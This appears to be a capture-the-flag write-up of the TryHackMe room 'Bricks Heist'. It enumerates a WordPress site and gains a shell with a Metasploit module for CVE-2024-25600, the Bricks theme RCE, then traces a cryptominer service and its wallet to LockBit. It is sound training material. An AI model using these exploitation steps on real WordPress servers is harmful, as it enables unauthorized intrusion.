 ```yaml
---
title: 'TryHackMe: TryHack3M: Bricks Heist'
author: AmcaQt
categories: [TryHackMe]
tags: [web, enumeration, rce]
render_with_liquid: false
media_subpath: /images/thm_bricks_heist/
image:
  path: room_card.png
---
```


![Tryhackme Room Link](room_image.PNG){: width="600" height="150" .shadow }
_<https://tryhackme.com/r/room/tryhack3mbricksheist>_

## Description

Brick Press Media Co. was working on creating a brand-new web theme that represents a renowned wall using three million byte bricks. Agent Murphy comes with a streak of bad luck. And here we go again: the server is compromised, and they've lost access.

Can you hack back the server and identify what happened there?

Note : Add `MACHINE_IP bricks.thm` to your /etc/hosts file.

## Question & Flag

### What is the content of the hidden .txt file in the web folder?

First, before do further enumaration, let's run the basic scan with nmap

![Nmap Scan](scan.PNG)

Interesting find here, without wasting any time let's look further with [**WpScan**](https://www.kali.org/tools/wpscan/)

![](2.PNG)

The scan shows the site using Theme `bricks` with version `1.9.5`, after some research and finding we found the version is Vuln to Unauthenticated RCE

![Remote Code Execution](3.PNG)

The exploit and cve for the version is on github but i want to use metasploit to speed up the exploit
> https://github.com/K3ysTr0K3R/CVE-2024-25600-EXPLOIT

Power up your msfconsole and search for bricks, you shall find the matching modules

![](4.PNG)

simply use command use 0 and fill in the require and you shall get the shell

![](5.PNG)

```Command
set LHOST 10.8.58.21
set RHOSTS https://bricks.thm
set RPORT 443
run
```

with that you may find the answer for Task 1

![](6.jpg)

### What is the name of the suspicious process? & What is the service name affiliated with the suspicious process?

For this one go to google and do some research about it , then you'll found the command

![](systemctl.PNG)

get back to the terminal and try out the command

![](7.PNG)

but this is not the answer, let's try view the content of the service

![](8.jpg)

That's what we want

### What is the log file name of the miner instance?

Notice that the service is executing from `/lib/NetworkManager/` directory, go to that directory

![](9.jpg)

### What is the wallet address of the miner instance? & The wallet address used has been involved in transactions between wallets belonging to which threat group?

Using the strings on the log file that we view earlier, try to decode with [**CyberChef**](https://gchq.github.io/CyberChef/)

![](10.PNG)

kinda lost on what that is, but since we searched about wallet address so i did some research

![](wallet.PNG)

so i need to confirm it, go to [**Blockchair**](https://blockchair.com/) , lucky it was the correct one, so i went down to the last payment received

![](11.PNG)

Inside that transaction history and from there, inside the privacy check

![](12.PNG)

We can see the details on the transaction

![](13.PNG)

Copy the sender address and search it on google, most of the result return `LockBit`

> Source :
> 
> https://ofac.treasury.gov/recent-actions/20240220
>
> https://www.chainalysis.com/blog/lockbit-takedown-sanctions-february-2024/

## Conclusion 

This was fun Room and good for beginner to learn about `CVE` and how risky Outdated version of CMS such as `WordPress`.

# Happy Hacking

![Cute Gif](https://i.pinimg.com/originals/c6/ad/84/c6ad8481cee4f75d464b2a14040d06c9.gif)